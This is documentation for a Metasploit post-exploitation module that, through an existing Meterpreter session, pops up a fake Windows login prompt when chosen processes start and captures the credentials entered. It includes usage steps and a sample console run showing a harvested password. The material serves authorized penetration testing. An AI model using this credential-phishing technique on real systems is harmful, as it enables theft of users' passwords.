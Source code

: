 
## Vulnerable Application

  This module is able to perform a phishing attack on the target by
  popping up a login prompt. When the user fills credentials in the
  login prompt, the credentials will be sent to the attacker. The
  module is able to monitor for new processes and popup a login prompt
  when a specific process is starting. Tested on Windows 7.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/phish_windows_credentials```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **DESCRIPTION**

  Message shown in the loginprompt.

  **PROCESS**

  Prompt if a specific process is started by the target. (e.g. calc.exe or specify * for all processes.

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49164) at 2019-12-17 11:47:06 -0700

  msf > use post/windows/gather/phish_windows_credentials
  msf post(windows/gather/phish_windows_credentials) > set SESSION 1
    SESSION => 1
  msf5 post(windows/gather/phish_windows_credentials) > set PROCESS *
    PROCESS => *
  msf5 post(windows/gather/phish_windows_credentials) > exploit

  [+] PowerShell is installed.
  [*] Monitoring new processes.
  [*] [System Process] is already running. Waiting on new instances to start
  [*] System is already running. Waiting on new instances to start
  ...snip...
  [*] New process detected: 2744 notepad.exe
  [*] Killing the process and starting the popup script. Waiting on the user to fill in his credentials...
  [+]

  [+] UserName                   Domain                     Password
  --------                   ------                     --------
  MY                         MY-PC                      P@ssw0rd1!



  [*] Post module execution completed
  ```
